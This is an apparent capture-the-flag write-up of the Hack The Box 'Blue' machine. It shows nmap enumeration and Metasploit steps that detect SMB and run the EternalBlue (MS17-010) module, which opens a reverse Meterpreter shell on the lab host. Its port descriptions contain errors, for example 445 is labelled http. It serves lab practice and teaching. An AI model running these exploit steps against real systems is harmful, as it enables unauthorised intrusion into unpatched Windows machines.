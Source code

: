 ![logo](/logo.png)

# [Blue- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 28 Jul 2017 as the tenth machine on HTB,Blue created by [ch4p](https://app.hackthebox.com/users/1) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Smb
  *EternalBlue
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/blue 10.10.10.40
```

###### Output 

![](/Windows/Windows-Easy/Blue/Screenshots/nmap.png)


looking at the results  we find out that there are 4 ports open and its a `Windows`and its running an `Windows 7 Professional`. 

port[135]-netbios
port[139]-smb
port[445]-  http
port[49152]
port[49153]
port[49154]-msrpc
port[49155]
port[49156]

#### SMB Host Detection
We search for the vertion of the smb from `msfconsole`

```sh
search smb_version
use 0
set RHOSTS 10.10.10.40
set RPORT 445
run
```

![](/Windows/Windows-Easy/Blue/Screenshots/msfconsole.png)

Now that is a window 7 profesional and smb 2.1 it had vulnerability called `EternalBlue`

![](/Windows/Windows-Easy/Blue/Screenshots/eternalblue.png)


# Exploitation 

```sh
use windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set RPORT 445
set LHOST 10.10.14.**
set LPORT 4444
run
```

![](/Windows/Windows-Easy/Blue/Screenshots/msfblue.png)

and just like that we get a `Meterpreter` 

![](/Windows/Windows-Easy/Blue/Screenshots/meterpreter.png)

it grants as a root privillage lets get the flags

![](/Windows/Windows-Easy/Blue/Screenshots/shellflags.png)

	-------------------------END successful attack @lesley----------------------






